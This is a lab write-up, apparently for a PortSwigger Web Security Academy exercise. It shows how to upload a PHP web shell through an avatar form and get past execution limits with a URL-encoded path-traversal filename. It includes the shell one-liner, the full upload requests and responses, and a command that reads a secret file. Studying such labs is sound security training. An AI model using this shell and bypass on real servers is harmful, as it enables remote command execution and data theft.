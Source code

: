 ## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/1f1b537e-88bb-48e0-ae35-def3d01086ab)

## Overview :

#### Preventing file execution in user-accessible directories

While it's clearly better to prevent dangerous file types being uploaded in the first place, the **second line of defense is to stop the server from executing any scripts** that do slip through the net.

As a precaution, **servers generally only run scripts whose MIME type they have been explicitly configured to execute**. Otherwise, they may just return some kind of error message or, in some cases, serve the contents of the file as plain text instead:

```
GET /static/exploit.php?command=id HTTP/1.1
Host: normal-website.com


HTTP/1.1 200 OK
Content-Type: text/plain
Content-Length: 39

<?php echo system($_GET['command']); ?>
```

This behavior is potentially interesting in its own right, as it may provide a way to_ leak source code, but it nullifies any attempt to create a web shell_.

This kind of configuration often differs between directories. **A directory to which user-supplied files are uploaded will likely have much stricter controls than other locations** on the filesystem that are assumed to be out of reach for end users. **If you can find a way to upload a script to a different directory that's not supposed to contain user-supplied files**, the server may execute your script after all.

> Tip
> 
> Web servers often use the `filename` field in `multipart/form-data` requests **to determine the name and location where the file should be saved**. 

## Solution :

Log in as wiener to access the page where we can upload avatars.

### Upload the malicious file -

When we upload `file.php` with the contents `<?php echo system($_GET['command']); ?>`, it is successfully uploaded without any issues.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/9cfde7a0-b8eb-4f83-9c55-e4189aee789a)

The request that was sent is as follows,

```
POST /my-account/avatar HTTP/2
Host: 0a78005003faed9a82dc0c4600a00020.web-security-academy.net
Cookie: session=aWtpSAMVirAHeCiD6YqpGN4PJji0x0kC
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------42560056771282130375485220784
Content-Length: 523
Origin: https://0a78005003faed9a82dc0c4600a00020.web-security-academy.net
Referer: https://0a78005003faed9a82dc0c4600a00020.web-security-academy.net/my-account?id=wiener
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers

-----------------------------42560056771282130375485220784
Content-Disposition: form-data; name="avatar"; filename="file.php"
Content-Type: application/x-php

<?php echo system($_GET['command']); ?>

-----------------------------42560056771282130375485220784
Content-Disposition: form-data; name="user"

wiener
-----------------------------42560056771282130375485220784
Content-Disposition: form-data; name="csrf"

z1cGPxcrji8bU05DgYXWwrDK4bxUVQcO
-----------------------------42560056771282130375485220784--
```

But when we try to access/run the file, we get nothing in response. It is plaintext. It means the directory in which the file is saved doensn't allow certain files to be executed(Permission issues etc..,).

So we have to **save the file in some other directory which has executable permissions.**

Notice that there is a `filename=` parameter in the body , since the request has `multipart/form-data`. We could use that parameter to save it in another directory.

#### Case 1 -

When we give **filename=../file.php** , the response says it is successfully uploaded but if we try accessing the file at `academy.com/files/avatars/../file.php` or `academy.com/files/file.php` it still shows nothing.

Maybe the server strips of the **.. or /** so it gets saved as **..file.php**.

#### Case 2 -

Now to bypass this we can try giving the name of the filename in the **filename=** parameter by Url encoding it as `filename=..%2Ffile.php`

```
POST /my-account/avatar HTTP/2
Host: 0a78005003faed9a82dc0c4600a00020.web-security-academy.net
.
.
.
.
-----------------------------42560056771282130375485220784
Content-Disposition: form-data; name="avatar"; filename="..%2Ffile.php"
Content-Type: application/x-php

<?php echo system($_GET['command']); ?>

-----------------------------42560056771282130375485220784
Content-Disposition: form-data; name="user"

wiener
-----------------------------42560056771282130375485220784
Content-Disposition: form-data; name="csrf"

z1cGPxcrji8bU05DgYXWwrDK4bxUVQcO
-----------------------------42560056771282130375485220784--
```

Now also we get a successfully uploaded message in the response.

```
HTTP/2 200 OK
Date: Fri, 28 Jul 2023 14:36:58 GMT
Server: Apache/2.4.41 (Ubuntu)
Vary: Accept-Encoding
Content-Type: text/html; charset=UTF-8
X-Frame-Options: SAMEORIGIN
Content-Length: 132

The file avatars/../file.php has been uploaded.<p><a href="/my-account" title="Return to previous page">« Back to My Account</a></p>
```

Now if we try to access the file at `academy.net/files/file.php & run it using the `?command=` parameter, we get the executed command back in the response.

ie - `https://academy.net/files/file.php?command=id`

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/a15c5e42-4a21-476e-9f55-d89b33a89690)

### Retreive the secret -

Now we can retreive the secret by accessing the file at `/files/file.php` ie the directory before avatars & run the script with the **command=cat /home/carlos/secret**

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/df72a712-6213-4e9f-b2b6-58263f1da559)

SECRET - `rT9LETyiGsSM5KvLRUKfijLkW08AdheP`

Submit the secret to solve the lab.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/5d5e09e9-4d3d-422f-b402-d9a40e5f8518)

